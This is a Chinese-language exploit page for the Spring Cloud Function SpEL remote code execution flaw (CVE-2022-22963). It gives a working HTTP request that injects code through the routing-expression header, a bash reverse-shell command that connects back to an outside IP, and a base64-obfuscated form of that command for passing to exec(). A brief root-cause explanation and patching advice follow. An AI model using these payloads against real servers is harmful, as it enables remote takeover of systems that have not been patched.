 # SpringCloudFunctionSpEL RCE(CVE-2022-22963)

## 利用条件：

- 3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2

## 利用方法：

#### POC：
```shell
POST /functionRouter
Host: 1.1.1.1
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded

1
```
- linux反弹shell POC：
`bash -i >&/dev/tcp/1.1.1.1/8888 0>&1`经过base64编码，作为exec("")参数
```shell
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvODg4OCAwPiYx}|{base64,-d}|{bash,-i}
```
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringCloudFunctionSpEL%20RCE(CVE-2022-22963)/img/poc.jpg)
![](https://github.com/user-error-404/WIKI-POC/blob/main/Wiki/开发框架漏洞/Spring/SpringCloudFunctionSpEL%20RCE(CVE-2022-22963)/img/nc.jpg)

## 漏洞原理：

1. 在main分支commit dc5128b中，新增了SimpleEvaluationContext,由isViaHeader变量作为flag，在解析前判断spring.cloud.function.routing-expression的值是不是取自HTTP头，如果是的话就用SimpleEvaluationContext解析SpEL语句，不是来自外部输入时（比如System.setProperty）才用StandardEvaluationContext解析
2. 伪造http头请求，造成漏洞利用

## 漏洞修复：

1. 排查pom.xml或应用程序中lib文件夹是否包含对spring-cloud-function组件的引用，使用官方最新发布版本。
2. 更新安全设备防护规则或手动改创建规则防护(检测spring.cloud.function.routing-expression)